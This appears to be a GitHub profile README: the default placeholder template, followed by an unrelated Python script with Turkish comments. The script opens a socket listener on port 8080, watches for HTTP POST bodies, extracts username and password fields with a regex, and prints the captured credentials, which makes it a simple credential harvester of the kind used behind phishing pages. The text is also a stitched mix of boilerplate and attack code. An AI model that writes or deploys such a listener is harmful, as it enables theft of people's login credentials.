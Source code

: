 - 👋 Hi, I’m @Neutronxq
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Neutronxq/Neutronxq is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
import socket
import re

# Kullanıcı adı ve şifreyi almak için regex
username_password_pattern = re.compile(r"(username|user|login|email)=(\S+).*?(password|pass)=(\S+)")

def listen_packets(host, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((host, port))
    s.listen(5)
    print(f"Dinleniyor: {host}:{port}")
    
    while True:
        client_socket, _ = s.accept()
        data = client_socket.recv(1024).decode('utf-8', errors='ignore')
        
        if "POST" in data:  # HTTP POST isteği varsa
            match = username_password_pattern.search(data)  # Regex ile kullanıcı adı ve şifreyi ara
            if match:
                username = match.group(2)  # Kullanıcı adı
                password = match.group(4)  # Şifre
                print(f"Kullanıcı Adı: {username}, Şifre: {password}")  # Kullanıcı adı ve şifreyi yazdır
        client_socket.close()

# Dinlemeye başla
listen_packets("0.0.0.0", 8080)  # 0.0.0.0 tüm IP'leri dinler, 8080 portu üzerinde

